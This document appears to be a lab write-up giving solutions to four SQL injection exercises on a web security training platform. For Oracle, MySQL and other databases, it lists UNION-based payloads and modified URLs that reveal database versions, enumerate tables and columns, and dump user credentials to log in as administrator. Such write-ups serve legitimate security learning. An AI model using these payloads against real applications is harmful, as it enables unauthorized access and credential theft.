 # Examining the database

## SQL injection attack, querying the database type and version on Oracle

This lab contains an SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

To solve the lab, display the database version string.

Target URL:

```
https://ac411f5e1efd6df0807300ed00e30057.web-security-academy.net/filter?category=Gifts
```

Solution:

```SQL
' ORDER BY 1,2--
' UNION SELECT 'a','b' FROM dual--
' UNION SELECT banner, NULL FROM v$version--
```

Modified URL:

```
https://ac411f5e1efd6df0807300ed00e30057.web-security-academy.net/filter?category=Gifts'+UNION+SELECT+banner,+NULL+FROM+v$version--
```

## SQL injection attack, querying the database type and version on MySQL and Microsoft

This lab contains an SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

To solve the lab, display the database version string.

Target URL:

```
https://ac8b1f3e1ea6a87a804d17df00960002.web-security-academy.net/filter?category=Corporate+gifts
```

Solution:

```SQL
' ORDER BY 1,2--
' UNION SELECT 'a','b'-- banner
' UNION SELECT @@version, NULL-- banner
```

Modified URL:

```
https://ac8b1f3e1ea6a87a804d17df00960002.web-security-academy.net/filter?category=Corporate+gifts'+UNION+SELECT+@@version,+NULL--+banner
```

## SQL injection attack, listing the database contents on non-Oracle databases

This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the `administrator` user.

Target URL:

```
https://ac641fb21ef453a780df0e850024008d.web-security-academy.net/filter?category=Gifts
```

Solution:

```SQL
' ORDER BY 1,2--
' UNION SELECT table_name, table_schema FROM information_schema.tables--
' UNION SELECT table_name, column_name FROM information_schema.columns--
' UNION SELECT username_oqfoht, password_bhyjfz FROM users_bjmkrc--
```

Modified URL:

```
https://ac641fb21ef453a780df0e850024008d.web-security-academy.net/filter?category=Gifts'+UNION+SELECT+username_oqfoht,+password_bhyjfz+FROM+users_bjmkrc--
```

## SQL injection attack, listing the database contents on Oracle

This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the `administrator` user.

Target URL:

```
https://acbd1f041f52bf1b802b011b007d00b2.web-security-academy.net/filter?category=Gifts
```

Solution:

```SQL
' ORDER BY 1,2--
' UNION SELECT table_name, NULL FROM all_tables--
' UNION SELECT table_name, column_name FROM all_tab_columns WHERE table_name = 'USERS_VMNLRN'--
' UNION SELECT USERNAME_TXJCMV, PASSWORD_PQWHDR FROM USERS_VMNLRN--
```

Modified URL:

```
https://acbd1f041f52bf1b802b011b007d00b2.web-security-academy.net/filter?category=Gifts'+UNION+SELECT+USERNAME_TXJCMV,+PASSWORD_PQWHDR+FROM+USERS_VMNLRN--
```